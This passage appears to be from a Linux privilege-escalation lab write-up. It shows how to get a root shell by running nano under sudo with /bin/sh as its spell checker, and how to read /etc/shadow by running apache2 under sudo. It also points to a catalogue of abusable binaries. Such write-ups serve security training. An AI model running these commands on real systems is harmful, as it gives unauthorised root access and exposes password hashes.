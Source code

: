 There are several programs we can use to escalate privileges.
Let's focus on nano. First run the following command.
~~~
sudo nano -s /bin/sh
~~~
Within nano type
~~~
/bin/sh
~~~
![nano1](/img/2020-07-27-LinuxPrivEsc/nano1.png)

Next type ^T (Control + T) and you will be dropped into a root shell.

![nano2](/img/2020-07-27-LinuxPrivEsc/nano2.png)

In case you want to escalate privilege  using another binary, I recommend this [link](https://gtfobins.github.io) for you to know how to abuse each binary.

## Task 9 → Privilege Escalation - Sudo (Abusing Intended Functionality)

Another interesting binary that we can run under sudo is 'apache2'.
Let's use it to read the shadow file.

~~~
sudo apache2 -f /etc/shadow
~~~
We can see the same root hash that we already cracked.
